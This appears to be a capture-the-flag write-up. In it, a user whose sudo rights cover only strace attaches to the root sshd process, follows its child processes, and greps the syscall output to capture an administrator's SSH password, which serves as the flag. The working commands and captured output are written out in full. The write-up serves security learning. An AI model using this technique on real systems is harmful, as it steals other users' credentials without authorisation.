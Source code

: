 ## Information
We are given the ip of a machine with the creds of a regular user  
We know that an administrator regularly connects to it  

## Basic Inspection
we can see its home with `ls -lA /home/monkey`  
nothing fancy here, no interesting file and we are not permitted to read or write them  
reading the logs with `cat /var/log/wtmp` we can see its ip and username, (i don't know at all if this step could be interesting or not but here it is)  

## First idea
time has come to know our rights!  
what can we do?
a little `sudo -l` learns us that we have actually great great powers:
```
$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for piwie: 
Matching Defaults entries for piwie on 8aabd5f4361e:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User piwie may run the following commands on 8aabd5f4361e:
    (ALL) /usr/bin/strace

```
the `strace` could prove really usefull...

spamming `ps aux` we also see the `monkey` `sshd` process appearing: the admin actually regularly logs in

## Beginning the attack
Let's looks into it:  
with `ps aux` we note:
```
root           1  0.0  0.0  69968  6128 ?        Ss   04:18   0:00 /usr/sbin/sshd -D
```
let's inspect it !

we run `sudo strace -p 1` then wait a bit... we can saw SIGCHILD signal received  
we should follow these processes but the output will be a mess so lets separate it and write it to files:  
`sudo strace -p 1 -ff -o output` should write the output of the diff pid to separate files
here we go !
```
$ sudo strace -p 1 -ff -o output
strace: Process 1 attached
strace: Process 26869 attached
strace: Process 26870 attached
strace: Process 26871 attached
strace: Process 26872 attached
strace: Process 26873 attached
...
```

## Final steps
quite some...
let's look at them, we `cat` the firsts and finally use a grep:
```
cat output.* | grep ZiTF
```
and there we find an interesting info:
```
write(4, "\0\0\0&ZiTF{j9obn4mdn16kp015jkj2kf9"..., 42) = 42
```
This is probably one of the syscalls executed when the admin types its password.

looks promising but we don't have it all so lets write more!  
`sudo strace -p 1 -ff -o output -s 100` should write at most 100 bytes of each string
and there we go:
```
$ cat output.* | grep ZiTF
read(6, "\f\0\0\0&ZiTF{j9obn4mdn16kp015jkj2kf9wlb3z2drc}", 43) = 43
write(4, "\0\0\0&ZiTF{j9obn4mdn16kp015jkj2kf9wlb3z2drc}", 42) = 42
```
flagged!